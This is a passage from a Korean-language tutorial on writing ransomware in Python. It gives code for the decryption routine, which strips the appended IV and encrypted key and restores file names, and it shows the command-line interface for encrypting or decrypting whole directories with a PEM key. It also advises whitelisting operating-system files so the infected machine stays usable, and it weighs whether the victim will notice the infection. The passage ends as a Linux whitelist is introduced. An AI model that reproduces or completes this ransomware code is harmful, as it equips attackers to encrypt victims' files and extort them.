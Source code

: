     # Read the encrypted header
    input_file.seek(0)
    buffer = input_file.read(buffer_size)

    # Decrypt the header with the key
    decrypted_bytes = cipher_encrypt.decrypt(buffer)

    # Write the decrypted text on the same file
    input_file.seek(0)
    input_file.write(decrypted_bytes)
    ```

8. 파일의 끝 부분에서 IV와 암호화된 키를 제거하고 이름을 변경한다.

    ```python
    # Delete the last 274 bytes from IV + key.
    input_file.seek(-274, os.SEEK_END)
    input_file.truncate()
    input_file.close()

    # Rename the file to delete the encrypted extenstion
    os.rename(file, out_filename)
    ```



# 마지막 고려사항

모든 함수 작성이 끝나면 선택한 폴더를 암호화하거나 복호화할 수 있는 바이너리를 만들 수 있다. 정확하게 `symEncryptDirectory/symDecryptDirectory` 함수를 코딩했으면 암호화, 복호화 중 하나를 선택한 후 `.pem` 파일을 전달하기만 하면 된다. main 호출 전에 바이너리에 이것과 비슷한 것이 있을 것이다

```python
parser = argparse.ArgumentParser()
parser.add_argument("--dest", "-d", help="File or directory to encrypt/decrypt", dest="destination", default="none", required=True)
parser.add_argument("--action", "-a", help="Action (encrypt/decrypt)", dest="action", required=True)
 
parser.add_argument("--pem","-p", help="Public/Private key", dest="key", required=True)
```

오류 검사(암호화 작업에 파라미터로 public key가 전달되는지, decrypt에 private key가 있는지 등) 외에도 운영 체제에 대한 파일 및 폴더를 화이트 리스트로 지정해야 한다. 암호화되더라도 컴퓨터는 사용이 가능하도록 해야 한다. 모든 파일을 암호화한다면 다음과 같은 결과를 볼 수 있다.

1. 사용자가 뭔가 잘못된 걸 알 수 있도록 컴퓨터 사용이 불가능해진다.
2. 전부 암호화된 후, 시스템이 부팅이 안되고 사용자는 랜섬웨어에 감염된 사실을 알지 못한다.

예시로 리눅스 화이트 리스트는 다음과 같다.
